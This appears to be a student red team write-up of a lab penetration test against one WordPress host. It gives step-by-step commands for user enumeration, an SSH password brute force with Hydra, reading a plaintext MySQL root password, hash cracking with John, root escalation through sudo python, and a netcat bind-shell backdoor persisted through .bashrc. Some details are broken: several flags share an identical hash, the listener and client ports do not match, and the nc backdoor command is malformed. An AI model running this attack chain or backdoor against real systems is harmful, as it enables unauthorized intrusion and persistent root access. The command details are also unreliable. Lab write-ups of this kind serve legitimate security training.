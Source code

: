# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
    - The product exposes sensitive information to an actor that is not explicitly authorized to have access to that information.
    - Allowed for port scan and identification of vulnerable ports.
  - CWE-672: Operation on a Resource after Expiration or Release
    - The software uses, accesses, or otherwise operates on a resource after that resource has been expired, released, or revoked.
    - Wordpress version 4.8.7 was vulnerable to user enumeration among other vulnerabilities, and allowed for discovery of users of target 1.
  - CWE-521: Weak Password Requirements 
    - The product does not require a strong passwords, which makes it easier for attackers to compromise user accounts.
    - Allows a brute force attack to crack or guess the weak password of an user: Michael, and use the stole credentials to infiltrate the server.
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
    - The software does not implement sufficient measures to prevent multiple failed authentication attempts within in a short time frame, making it more susceptible to brute force attacks.
    - Allows a brute force attack to occur.
  - CWE-256: Unprotected Storage of Credentials
    - Storing a password in plaintext may result in a system compromise.
    - MySQL password was stored in plain text, and used to access MySQL database.
  - CWE-522: Insufficiently Protected Credentials
    - The product transmits or stores authentication credentials, but it uses an insecure method that is susceptible to unauthorized interception and/or retrieval.
    - MySQL contained user passwords hashes that was cracked by John.
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 
    - The software does not correctly perform an authorization check, which  allows attackers to bypass intended access restrictions.
    - Steven, with permission of execute python exe, was used to escalate privileges to root.

![SSHVuln](/Images/SSHVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - wpscan --url 192.168.1.110/wordpress/ --enumerate u
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - ssh michael@192.168.1.110
        - Password: michael
      - Search for Flag1
        - grep -rnw ./ -e 'flag1' 2>/dev/null
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - cd /var/www
      - grep -rnw ./ -e 'flag2' 2>/dev/null
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password my MySQL database
        - grep -rnw ./ -e 'password' 2>/dev/null
        - nano /var/www/html/wordpress/wp-config.php
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - mysql -u root -p'R@3nSecurity'
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - select post_content from wp_posts
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - john hash_pw.txt
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Escalate to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - Search for flag4
        - find . -name flag4.txt
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
        - Set up a listener on Target 1 by:
      - Gain root access to Target 1 and executing:
        - nc -lvnp 444 - /bin/bash
        - Save a .sh file of the command in .bashrc
      - Connect it to Kali by: 
        - nc 192.168.1.110 4444
      - ![Backdoor](/Images/Backdoor.png)



